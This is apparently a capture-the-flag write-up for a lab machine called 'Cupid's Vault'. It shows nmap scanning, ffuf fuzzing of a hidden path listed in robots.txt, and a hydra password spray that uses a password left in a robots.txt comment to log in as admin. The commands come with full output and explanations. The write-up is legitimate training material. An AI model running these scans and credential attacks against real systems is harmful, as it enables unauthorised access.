



## Scenario

> My Dearest Hacker,
> 
> Cupid's Vault was designed to protect secrets meant to stay hidden forever. Unfortunately, Cupid underestimated how determined attackers can be.
> 
> Intelligence indicates that Cupid may have unintentionally left vulnerabilities in the system. With the holiday deadline approaching, you've been tasked with uncovering what's hidden inside the vault before it's too late.

Access via: `http://10.114.140.204:5000`

## Initial Reconnaissance

Landing on the page, there was nothing interactive to work with — no forms, no links, nothing clickable. Checking the page source confirmed the same: just a static "Love Letters Anonymous" message board with no functionality exposed.



With nothing visible to interact with on the page itself, the next step was a port and service scan.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.114.140.204 -Pn  
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-27 14:28 +0200
Stats: 0:00:53 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 26.67% done; ETC: 14:31 (0:02:24 remaining)
Stats: 0:01:32 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 48.62% done; ETC: 14:31 (0:01:21 remaining)
Stats: 0:02:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 14:30 (0:00:06 remaining)
Nmap scan report for 10.114.140.204
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 03:51:67:e5:a6:99:f0:f9:43:f3:0a:c8:31:43:24:16 (ECDSA)
|_  256 d6:06:e8:56:b9:ef:1b:4e:5f:e5:df:d1:10:60:3c:72 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.1.5 (Python 3.10.12)
| http-robots.txt: 1 disallowed entry 
|_/cupids_secret_vault/*
|_http-server-header: Werkzeug/3.1.5 Python/3.10.12
|_http-title: Love Letters Anonymous
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.24 seconds
```

Breakdown:

- `sudo` runs the command with elevated privileges
- `nmap` invokes the Nmap network scanner
- `-sC` runs Nmap's default script set, which includes `http-robots.txt` — this is what picked up the disallowed path below
- `-sV` attempts to determine the version of the services running on open ports
- `10.114.140.204` is the target IP address
- `-Pn` skips host discovery (ping) and treats the host as online, useful when ICMP is blocked

Two ports were open: SSH on 22, and the HTTP service on 5000 running Werkzeug/Flask,. The `http-robots.txt` script also surfaced a disallowed entry, `/cupids_secret_vault/*`, pointing at a hidden path.

## Directory Enumeration

Navigating to `http://10.114.140.204:5000//cupids_secret_vault/` loaded a page, but the source gave nothing further to work with — same as the initial landing page.


Since the page gave no further leads on its own, the next step was to fuzz for further paths underneath it.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u http://10.114.140.204:5000//cupids_secret_vault/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -ic -c -recursion 


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.114.140.204:5000//cupids_secret_vault/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 1064, Words: 445, Lines: 36, Duration: 93ms]
administrator           [Status: 200, Size: 2381, Words: 956, Lines: 90, Duration: 39ms]
                        [Status: 200, Size: 1064, Words: 445, Lines: 36, Duration: 41ms]
```

Breakdown:

- `ffuf` invokes the fuzzing tool
- `-u http://10.114.140.204:5000//cupids_secret_vault/FUZZ` sets the target URL, with `FUZZ` marking where each wordlist entry gets substituted
- `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ` points to the wordlist and binds it to the `FUZZ` keyword
- `-ic` ignores comment lines in the wordlist file
- `-c` colours the output for readability
- `-recursion` makes ffuf recurse into any directory it finds and fuzz inside it too

This turned up an `administrator` path under the hidden directory.

## Locating the Login Page

Navigating to `http://10.114.140.204:5000//cupids_secret_vault/administrator` landed on a login form. Checking the page source again on the off-chance of a forgotten comment with credentials turned up nothing useful — just the login form markup and the "Invalid credentials!" error template.

A first attempt with `admin:admin` as the credentials failed.



This didn't hold up as a lead; the credentials were guessed with no supporting evidence and the form gave no hint toward them. There also seems to be no account lockout mechanism in place.

## Password Spraying

The `robots.txt` file, which I had only been checked for its disallowed-path entry up to that point, hadn't actually been opened directly.

Revisiting `http://10.114.140.204:5000/robots.txt` directly surfaced more than the disallow rule Nmap had already reported:

```
User-agent: *
Disallow: /cupids_secret_vault/*

# cupid_arrow_2026!!!
```



A password sat in a comment at the bottom of the file. With a specific password in hand, I ran targeted password spray with a short username wordlist:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p 'cupid_arrow_2026!!!' 10.114.140.204 -s 5000  http-post-form '//cupids_secret_vault/administrator:username=^USER^&password=^PASS^:F=Invalid credentials'  -f

Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-27 15:01:13
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 17 login tries (l:17/p:1), ~2 tries per task
[DATA] attacking http-post-form://10.114.140.204:5000//cupids_secret_vault/administrator:username=^USER^&password=^PASS^:F=Invalid credentials
[5000][http-post-form] host: 10.114.140.204   login: admin   password: cupid_arrow_2026!!!
[STATUS] attack finished for 10.114.140.204 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-10-27 15:01:24
```

Breakdown:

- `hydra` invokes the tool again
- `-L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt` reuses the same username wordlist
- `-p 'cupid_arrow_2026!!!'` supplies a single fixed password to try against every username (lowercase `-p`, rather than `-P` for a wordlist), since the actual password was already known
- `10.114.140.204` is the target host
- `-s 5000` sets the target port
- `http-post-form '//cupids_secret_vault/administrator:username=^USER^&password=^PASS^:F=Invalid credentials'` specifies the same login path, POST body format, and failure string as the earlier run
- `-f` stops as soon as a valid pair is found

This found a hit almost immediately: `admin:cupid_arrow_2026!!!`.

## Flag

Submitting `admin:cupid_arrow_2026!!!` on the login form redirected to a success page displaying the flag.


**Answer:** `—REDACTED—`